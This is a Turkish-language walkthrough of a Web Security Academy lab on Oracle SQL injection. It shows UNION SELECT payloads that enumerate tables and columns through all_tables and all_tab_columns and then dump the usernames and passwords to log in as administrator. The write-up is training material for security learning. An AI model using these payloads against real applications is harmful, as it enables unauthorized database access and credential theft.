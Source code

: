 ![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 26.png)

# Lab: SQL injection attack, listing the database contents on Oracle

Bu lab ortamında da Oracle veritabanında benzer şeyleri yapmamız istenmektedir.

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 27.png)

Burada da başlangıçta parametre kısmına bu ifadeyi vererek başlayabiliriz.

```python
mdisec' UNION SELECT null,null FROM dual --
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 28.png)

Daha sonra tablo isimlerini getiriyoruz. Buradaki tablo isimlerini kontrol ettiğimizde kullanıcılarla ilgili olan tablonun “**USERS_XEDOYY**” olduğunu görmekteyiz.

```python
mdisec' UNION SELECT table_name,null FROM all_tables --
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 29.png)

Şimdi de bu tablodan veri çekmeliyiz. Bunun için de bu şekilde ilerleyebiliriz. Burada da kolon isimlerini elde etmekteyiz.

```python
mdisec' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_XEDOYY'--
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 30.png)

```python
Tablo adı ve Kolon isimlerimizi not alıyoruz:
tablo: 
**USERS_XEDOYY
kolonlar:**
EMAIL
PASSWORD_VDQFLZ
USERNAME_ZIOPHP
```

Bu aşamadan sonra da bu kolonlardaki verileri çekmeye yönelik bir SQL sorgusu yazmamız gerekmektedir. Burada iki kolon da ekrana yazıldığı için concatenation yani birleştirme yapmamıza gerek yok.

```python
mdisec' UNION SELECT USERNAME_ZIOPHP,PASSWORD_VDQFLZ FROM USERS_XEDOYY --
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 31.png)

Buradan artık administrator hesabıyla giriş yaptığımızda lab çözülmüş oluyor.
